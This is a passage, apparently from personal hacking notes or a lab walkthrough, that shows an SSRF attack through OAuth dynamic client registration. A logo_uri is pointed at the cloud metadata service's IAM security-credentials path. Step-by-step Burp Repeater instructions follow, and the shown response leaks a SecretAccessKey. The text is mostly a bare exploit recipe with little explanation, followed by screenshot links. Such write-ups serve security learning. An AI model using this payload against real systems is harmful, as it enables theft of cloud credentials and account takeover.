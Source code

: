 ```bash
],
"logo_uri":   "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}

Send
Response:

"client_id":"DejrR-ROWR6zEdMAEIRUa"

Copy the client_id value
Go to: Repeater
Find:

GET /client/tAW4exlC5JSzaYlGz5yFJ/logo HTTP/1.1

Change:

GET /client/DejrR-ROWR6zEdMAEIRUa/logo HTTP/1.1

Send
Response:

"SecretAccessKey" : "ABDXpijS4fIkUUN4A3zBzYFDkF9yJxEjuXM17rk2"

```



![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612013147.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612013207.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612013117.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612013318.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612013512.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612013644.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612013805.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612013950.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220612014103.png)

#hacking
